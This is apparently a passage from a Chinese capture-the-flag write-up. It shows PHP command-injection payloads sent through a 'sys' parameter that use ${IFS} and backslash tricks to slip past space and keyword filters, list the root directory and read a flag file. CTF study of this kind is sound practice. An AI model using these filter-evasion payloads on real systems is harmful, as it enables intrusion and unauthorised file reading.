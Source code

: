 ![image-20240123171849150](image/image-20240123171849150.png)

进行传参后，进行目录查询
发现此目录下仅有一个php文件，查询一下根目录，因为空格过滤，所以需要空格绕过，get传入下
面代码

```
?sys=passthru('ls${IFS}/');
```

![image-20240123171941642](image/image-20240123171941642.png)

发现flag，因为过滤，所以需要利用\绕过。进行输出flag

```
?sys=passthru('t\ac${IFS}/flag');
```

得到flag
